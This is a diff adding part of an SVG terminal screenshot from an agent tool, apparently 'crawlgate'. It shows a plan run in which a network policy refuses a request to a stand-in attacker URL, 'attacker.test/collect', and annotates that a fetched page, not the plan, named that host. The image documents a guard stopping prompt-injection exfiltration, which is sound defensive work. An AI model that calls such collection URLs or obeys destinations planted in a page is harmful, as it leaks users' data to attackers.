+       <text class="terminal-73425060-r1" x="1122.4" y="776.4" textLength="12.2" clip-path="url(#terminal-73425060-line-31)">
+ </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="800.8" textLength="12.2" clip-path="url(#terminal-73425060-line-32)">
+ </text>
+       <text class="terminal-73425060-r6" x="24.4" y="825.2" textLength="122" clip-path="url(#terminal-73425060-line-33)">┌────────┐</text>
+       <text class="terminal-73425060-r6" x="183" y="825.2" textLength="109.8" clip-path="url(#terminal-73425060-line-33)">⨯ REFUSED</text>
+       <text class="terminal-73425060-r6" x="292.8" y="825.2" textLength="146.4" clip-path="url(#terminal-73425060-line-33)">   netpolicy</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="825.2" textLength="12.2" clip-path="url(#terminal-73425060-line-33)">
+ </text>
+       <text class="terminal-73425060-r6" x="24.4" y="849.6" textLength="122" clip-path="url(#terminal-73425060-line-34)">│ \\  // │</text>
+       <text class="terminal-73425060-r1" x="183" y="849.6" textLength="427" clip-path="url(#terminal-73425060-line-34)">http://attacker.test/collect?d=link</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="849.6" textLength="12.2" clip-path="url(#terminal-73425060-line-34)">
+ </text>
+       <text class="terminal-73425060-r6" x="24.4" y="874" textLength="122" clip-path="url(#terminal-73425060-line-35)">│--(OO)--│</text>
+       <text class="terminal-73425060-r4" x="183" y="874" textLength="463.6" clip-path="url(#terminal-73425060-line-35)">host 'attacker.test' not in plan scope</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="874" textLength="12.2" clip-path="url(#terminal-73425060-line-35)">
+ </text>
+       <text class="terminal-73425060-r6" x="24.4" y="898.4" textLength="122" clip-path="url(#terminal-73425060-line-36)">│ //  \\ │</text>
+       <text class="terminal-73425060-r4" x="183" y="898.4" textLength="463.6" clip-path="url(#terminal-73425060-line-36)">the page named this - the plan did not</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="898.4" textLength="12.2" clip-path="url(#terminal-73425060-line-36)">
+ </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="922.8" textLength="12.2" clip-path="url(#terminal-73425060-line-37)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="947.2" textLength="24.4" clip-path="url(#terminal-73425060-line-38)">▸ </text>
+       <text class="terminal-73425060-r3" x="24.4" y="947.2" textLength="36.6" clip-path="url(#terminal-73425060-line-38)">2  </text>
+       <text class="terminal-73425060-r1" x="61" y="947.2" textLength="134.2" clip-path="url(#terminal-73425060-line-38)">extract    </text>
+       <text class="terminal-73425060-r4" x="195.2" y="947.2" textLength="158.6" clip-path="url(#terminal-73425060-line-38)">schema string</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="947.2" textLength="12.2" clip-path="url(#terminal-73425060-line-38)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="971.6" textLength="24.4" clip-path="url(#terminal-73425060-line-39)">▸ </text>
+       <text class="terminal-73425060-r3" x="24.4" y="971.6" textLength="36.6" clip-path="url(#terminal-73425060-line-39)">3  </text>
+       <text class="terminal-73425060-r1" x="61" y="971.6" textLength="134.2" clip-path="url(#terminal-73425060-line-39)">write_file </text>
+       <text class="terminal-73425060-r1" x="195.2" y="971.6" textLength="195.2" clip-path="url(#terminal-73425060-line-39)">notes/summary.md</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="971.6" textLength="12.2" clip-path="url(#terminal-73425060-line-39)">
+ </text>
+       <text class="terminal-73425060-r1" x="0" y="996" textLength="24.4" clip-path="url(#terminal-73425060-line-40)">▸ </text>
+       <text class="terminal-73425060-r3" x="24.4" y="996" textLength="36.6" clip-path="url(#terminal-73425060-line-40)">4  </text>
+       <text class="terminal-73425060-r1" x="61" y="996" textLength="134.2" clip-path="url(#terminal-73425060-line-40)">report     </text>
+       <text class="terminal-73425060-r1" x="1122.4" y="996" textLength="12.2" clip-path="url(#terminal-73425060-line-40)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="1020.4" textLength="732" clip-path="url(#terminal-73425060-line-41)">────────────────────────────────────────────────────────────</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="1020.4" textLength="12.2" clip-path="url(#terminal-73425060-line-41)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="1044.8" textLength="122" clip-path="url(#terminal-73425060-line-42)">3 executed</text>
+       <text class="terminal-73425060-r6" x="158.6" y="1044.8" textLength="109.8" clip-path="url(#terminal-73425060-line-42)">1 refused</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="1044.8" textLength="12.2" clip-path="url(#terminal-73425060-line-42)">
+ </text>
+       <text class="terminal-73425060-r4" x="0" y="1069.2" textLength="85.4" clip-path="url(#terminal-73425060-line-43)">trace  </text>
+       <text class="terminal-73425060-r3" x="85.4" y="1069.2" textLength="732" clip-path="url(#terminal-73425060-line-43)">.crawlgate/runs/a23ac885c18043e5ae4ecf30a797c16a/trace.jsonl</text>
+       <text class="terminal-73425060-r1" x="1122.4" y="1069.2" textLength="12.2" clip-path="url(#terminal-73425060-line-43)">
</text>
    </g>
  </g>
</svg>
